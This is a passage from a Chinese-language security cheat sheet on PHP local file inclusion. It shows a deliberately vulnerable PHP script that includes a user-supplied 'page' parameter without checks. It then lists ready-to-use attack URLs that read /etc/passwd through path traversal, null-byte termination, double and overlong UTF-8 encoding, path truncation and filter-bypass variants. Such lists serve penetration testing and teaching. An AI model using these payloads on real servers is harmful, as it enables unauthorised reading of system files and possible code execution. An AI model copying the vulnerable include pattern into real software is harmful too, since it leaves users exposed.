 ## 本地文件包含

考虑一个基于用户输入包含文件的PHP脚本。如果没有适当的消毒措施，攻击者可以操纵`page`参数来包含本地或远程文件，导致未经授权的访问或代码执行。

```php
<?php
$file = $_GET['page'];
include($file);
?>
```

在以下示例中，我们包含了`/etc/passwd`文件，有关更多有趣文件，请查看`目录和路径遍历`章节。

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### 空字节

:warning: 在PHP 5.3.4以下的版本中，我们可以用空字节终止。

```
http://example.com/index.php?page=../../../etc/passwd%00
```

## 双重编码

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 编码

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### 路径和点截断

在大多数PHP安装中，文件名超过`4096`字节将被截断，因此任何多余的字符将被丢弃。

```powershell
http://example.com/index.php?page=../../../etc/passwd............[添加更多]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[添加更多]
http://example.com/index.php?page=../../../etc/passwd/./././././.[添加更多] 
http://example.com/index.php?page=../../../[添加更多]../../../../etc/passwd
```

### 过滤器绕过技巧

```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
